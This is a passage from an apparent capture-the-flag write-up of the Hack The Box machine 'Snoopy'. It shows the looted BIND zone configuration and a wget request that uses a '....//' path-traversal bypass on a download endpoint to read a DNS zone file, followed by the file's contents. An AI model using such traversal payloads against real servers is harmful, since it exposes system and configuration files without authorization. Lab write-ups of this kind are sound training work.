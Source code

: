 > Hacktricks - https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#config-files

![](/assets/obsidian/4db128e9b44c7cf19cfb1047ad8a8d96.png)

Check the local config of `bind`, it have `allow-transfer`, and our IP is in the range

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot/etc_files]
└─$ cat etc_bind_named.conf.local
//
// Do any local configuration here
//

// Consider adding the 1918 zones here, if they are not used in your
// organization
//include "/etc/bind/zones.rfc1918";

zone "snoopy.htb" IN {
    type master;
    file "/var/lib/bind/db.snoopy.htb";
    allow-update { key "rndc-key"; };
    allow-transfer { 10.0.0.0/8; };
};
```

Check the included db file, subdomain `mail` was not binded

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot/etc_files]
└─$ wget 'http://snoopy.htb/download?file=....//....//....//....//var/lib/bind/db.snoopy.htb'

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot/etc_files]
└─$ zcat download\?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fvar%2Flib%2Fbind%2Fdb.snoopy.htb
$ORIGIN .
$TTL 86400      ; 1 day
snoopy.htb              IN SOA  ns1.snoopy.htb. ns2.snoopy.htb. (
                                2022032612 ; serial
                                3600       ; refresh (1 hour)
                                1800       ; retry (30 minutes)
                                604800     ; expire (1 week)
                                86400      ; minimum (1 day)
                                )
                        NS      ns1.snoopy.htb.
                        NS      ns2.snoopy.htb.
$ORIGIN snoopy.htb.
$TTL 86400      ; 1 day
mattermost              A       172.18.0.3
mm                      A       127.0.0.1
ns1                     A       10.0.50.10
ns2                     A       10.0.51.10
mattermost              A       172.18.0.3
postgres                A       172.18.0.2
provisions              A       172.18.0.4
www                     A       127.0.0.1
```
